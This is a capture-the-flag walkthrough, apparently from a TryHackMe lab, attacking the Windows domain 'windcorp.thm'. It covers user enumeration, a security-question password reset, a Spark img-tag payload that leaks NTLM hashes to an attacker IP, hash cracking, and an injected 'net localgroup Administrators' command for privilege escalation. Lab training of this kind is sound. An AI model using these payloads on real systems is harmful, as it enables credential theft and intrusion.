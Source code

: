 It's time to scan the target ip with nmap:
```bash
nmap -sC -sV -p- 10.10.232.200

Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-15 22:16 CEST
Nmap scan report for 10.10.232.200
Host is up (0.057s latency).
Not shown: 978 filtered ports
PORT     STATE SERVICE             VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp   open  http                Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Windcorp.
88/tcp   open  kerberos-sec        Microsoft Windows Kerberos (server time: 2023-11-15 22:16:45Z)
135/tcp  open  msrpc               Microsoft Windows RPC
139/tcp  open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
```
there is a 80 open port that we can visit it, inside the website we found interesting things: the first one is the _reset password button_ maybe it could be used to change someone password and the second one is
a possible user list.

My first move is to save the severals names and surnames in a .txt,  generate a possible userlist and check it with kerbrute tool:

```txt
 Antonietta Vidal
 Britney Palmer
 Brittany Cruz
 Carla Meyer
 Buse Candan
 Edeltraut Daub
 Edward Lewis
 Emile Lavoie
 Emile Henry
 Emily Anderson
 Hemmo Boschma
 Isabella Hughes
 Isra Saur
 Jackson Vasquez
 Jaqueline Dittmer
 Kirk Uglas
 Emily Jensen
 Lily Levesque
```

```bash
python3 namemash.py list.txt >> userlist.txt
```

```bash
kerbrute userenum -d WINDCORP --dc 10.10.232.200 userlist.txt
```

```
buse
edeltraut
edward
emile
lilyle
```

We found some users, the second thing to see is the reset password button, if we click on it, it tells us to add a new subdomain called _"fire.windcorp.thm"_ at _/etc/hosts_, once added it we see 
who is possible to reset passowrd of a user by guessing the secure question.

The user to reset password is lilyle because: the third secure question is _what is your favorite pets name?_, if we scroll down we can view an image of lilyle and is little dog, if we do _rigthclick-> open image in new tab_ 
in the new tab is written _lilyleAndSparky.jpg_ therefore inside the reset button we enter the user lilyle, third question and the answer Sparky we can obtain a new password _ChangeMe#1234_.

Now let's try to use the new credential against smb for example:

```bash
crackmapexec smb 10.10.232.200 -u 'lilyle' -p 'ChangeMe#1234' --shares

SMB         10.10.232.200   445    FIRE             [*] Windows 10.0 Build 17763 x64 (name:FIRE) (domain:windcorp.thm) (signing:True) (SMBv1:False)
SMB         10.10.232.200   445    FIRE             [+] windcorp.thm\lilyle:ChangeMe#1234 
SMB         10.10.232.200   445    FIRE             [+] Enumerated shares
SMB         10.10.232.200   445    FIRE             Share           Permissions     Remark
SMB         10.10.232.200   445    FIRE             -----           -----------     ------
SMB         10.10.232.200   445    FIRE             ADMIN$                          Remote Admin
SMB         10.10.232.200   445    FIRE             C$                              Default share
SMB         10.10.232.200   445    FIRE             IPC$            READ            Remote IPC
SMB         10.10.232.200   445    FIRE             NETLOGON        READ            Logon server share 
SMB         10.10.232.200   445    FIRE             Shared          READ            
SMB         10.10.232.200   445    FIRE             SYSVOL          READ            Logon server share 
SMB         10.10.232.200   445    FIRE             Users           READ            
```

The most suspicious is _Shared_ we can view it with smbclient:

```bash
smbclient \\\\10.10.232.200\\Shared -U lilyle

smb: \> ls
  .                                   D        0  Sat May 30 02:45:42 2020
  ..                                  D        0  Sat May 30 02:45:42 2020
  Flag 1.txt                          A       45  Fri May  1 17:32:36 2020
  spark_2_8_3.deb                     A 29526628  Sat May 30 02:45:01 2020
  spark_2_8_3.dmg                     A 99555201  Sun May  3 13:06:58 2020
  spark_2_8_3.exe                     A 78765568  Sun May  3 13:05:56 2020
  spark_2_8_3.tar.gz                  A 123216290  Sun May  3 13:07:24 2020
```

Inside we can retrieve the first flag and go on with the spark 2.8.3 instead if we search on internet there is a possible exploit [CVE-2020-12772](https://vulmon.com/searchpage?q=igniterealtime+spark+2.8.3), the exploit is simple,
in a chat messagge we can include an img tag with the source refer to our IP with responder up to retrieve the NTLM hash of the target user.

First we download and install the _spark.2.8.3.exe_ (.exe because .deb has som errors with jdk8 and jre8), after download it we enter with lilyle credential, now we must find the target user that it's possible to see inside the
website in fact there is _IT support-staff_ and the user buse it has a green icon on his left so we can suggest that is the target user.

We add _buse@windcorp.thm_ at our contacts, we turn on responder with the following command _sudo responder -I eth0 _ and we send a message with this payload _<img src="10.8.98.143/img.jpg">_; sbam we have the NTLM hash of user buse,
It's time to crack it:

```bash
john hash -w=/usr/share/wordlists/rockyou.txt

```

we enter via WinRM:

```bash
evil-winrm WINDCORP -u buse -p <REDACTED>
```

we're in and we can search around the fileystem.

The most interesting thing it's a script ran by _admin_, called _checkservers.ps1_ inside _C:\Scripts_ (very strange folder inside the C drive), the most part of it is:

```powershell
get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |
ForEach-Object {
    $p = "Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue"
    Invoke-Expression $p

```

the idea is to modify _hosts.txt_ a powershell command to escalate privileges but we must gain access to brittanycr user.

It's time to run _Sharphound.exe_ (we import in the target machine) and use bloodhund:

```powershell
.\Sharphound.exe

```
we upload the json files inside the bloodhund and in the pathfind we type _from buse to brittanycr_, we can see that buse has _GenericAll_ attribute (it allows to change what we want against brittanycr user), the idea is to change
the password and add her to the Remote Management Users:

```powershell
$Password = ConvertTo-SecureString "<new password>" -AsPlainText -Force
Set-ADAccountPassword -Identity "<username>" -Reset -NewPassword $Password 
```

```powershell
Add-ADGroupMember -Identity "<groupname>" -Members <username>
```

If every step is doing right we can enter with brittanycr via evil-winrm, we  change the content inside _hosts.txt_ with the following command:

```powershell
google.com;net localgroup Administrators buse /add
```

after some minutes type this command on buse shell:

```cmd
whoami /all
```

sbam, we can see that buse is member of Administrators group therefore if we go on the following path _C:\Users\Administrator\Desktop_ we can retrieve and submit the third flag.
